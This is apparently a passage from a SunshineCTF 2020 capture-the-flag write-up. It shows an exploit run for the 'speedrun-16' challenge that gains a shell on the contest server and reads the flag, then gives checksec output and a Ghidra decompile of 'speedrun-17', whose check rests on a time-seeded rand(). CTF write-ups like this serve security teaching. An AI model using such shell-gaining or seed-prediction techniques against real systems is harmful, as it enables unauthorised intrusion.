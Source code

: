 Output:

```bash  
# ./exploit_16.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-16/chall_16'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to chal.2020.sunshinectf.org on port 30016: Done  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_16) gid=1000(chall_16) groups=1000(chall_16)  
$ ls -l  
total 16  
-rwxr-xr-x 1 root root     8648 Nov  7 07:49 chall_16  
-rw-r----- 1 root chall_16   43 Nov  7 08:52 flag.txt  
$ cat flag.txt  
sun{beast-and-the-harlot-73058b6d2812c771}  
```

## speedrun-17

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
```

Again all mitigations in place.

### Decompile with Ghidra

```c  
void main(void)  
{  
 time_t tVar1;  
 long in_FS_OFFSET;  
 uint local_18;  
 uint local_14;  
 long local_10;  
  
 local_10 = *(long *)(in_FS_OFFSET + 0x28);  
 tVar1 = time((time_t *)0x0);  
 srand((uint)tVar1);  
 local_14 = rand();  
 __isoc99_scanf(&DAT_00100aea,&local_18);  
 if (local_14 == local_18) {  
   win();  
 }  
 else {  
   printf("Got: %d\nExpected: %d\n",(ulong)local_18,(ulong)local_14);  
 }  
 if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {  
   __stack_chk_fail();  
 }  
 return;  
}  
```
